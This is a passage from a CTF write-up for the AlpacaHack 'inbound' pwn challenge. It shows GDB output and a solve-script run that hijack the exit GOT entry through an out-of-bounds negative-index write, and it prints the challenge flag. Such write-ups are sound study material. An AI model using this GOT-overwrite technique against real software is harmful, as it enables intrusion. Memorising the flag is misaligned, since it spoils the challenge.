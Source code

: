 ```shell
gef➤  r
[...]
index: -14
value: 4198870

Breakpoint 1, 0x000000000040133d in main ()
[...]
gef➤  x/gx 0x404028
0x404028 <exit@got.plt>:	0x00000000004011d6
gef➤  c
Continuing.
slot[0] = 0
[...]
/bin/cat: /flag.txt: No such file or directory
```

Nice! It worked!

Armed with the above information, we can write a Python solve script to get the flag on the remote instance.

<details><summary><strong>solve.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-6-(Pwn)/inbound/inbound)-[2024.11.04|13:11:45(HKT)]
└> python3 solve.py
[...]
[+] exit@got address: 0x404028
[+] slot symbol address: 0x404060
[+] win symbol address: 0x4011d6
[+] Offset: -14
[...]
Alpaca{p4rt14L_RELRO_1s_A_h4pPy_m0m3Nt}
```

- **Flag: `Alpaca{p4rt14L_RELRO_1s_A_h4pPy_m0m3Nt}`**

## Conclusion

What we've learned:

1. Hijack GOT via out-of-bounds write